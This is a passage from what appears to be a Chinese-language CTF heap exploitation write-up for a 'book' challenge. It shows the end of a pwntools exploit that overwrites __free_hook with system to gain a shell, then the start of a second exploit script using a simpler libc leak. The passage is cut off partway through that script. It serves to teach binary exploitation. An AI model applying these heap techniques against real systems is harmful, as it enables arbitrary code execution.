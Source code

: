 ```python
'''

# overwrite free_hook
# set chunk2_desc 2 free_hook
editbook(1,p64(free_hook))
# overwrite free_hook 2 system
editbook(2,p64(system))

deletebook(2)

p.interactive()
```

##### 简洁方案 

在任意读写之后，另一种找到 libc 的方案其实是可以在进行任意读写之前首先造成 libc 地址被写在堆上，之后任意读将其读出来即可。

其中为找到 libc 所在的偏移，可以直接通过 gdb 调试，查看具体 libc 地址在堆上的位置即可，不用进行刻意计算。

exp 如下：

```python
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)

def cmd(choice):
    p.recvuntil('> ')
    p.sendline(str(choice))


def create(book_size, book_name, desc_size, desc):
    cmd(1)
    p.recvuntil(': ')
    p.sendline(str(book_size))
    p.recvuntil(': ')
    if len(book_name) == book_size:
        p.send(book_name)
    else:
        p.sendline(book_name)
    p.recvuntil(': ')
    p.sendline(str(desc_size))
    p.recvuntil(': ')
    if len(desc) == desc_size:
        p.send(desc)
    else:
```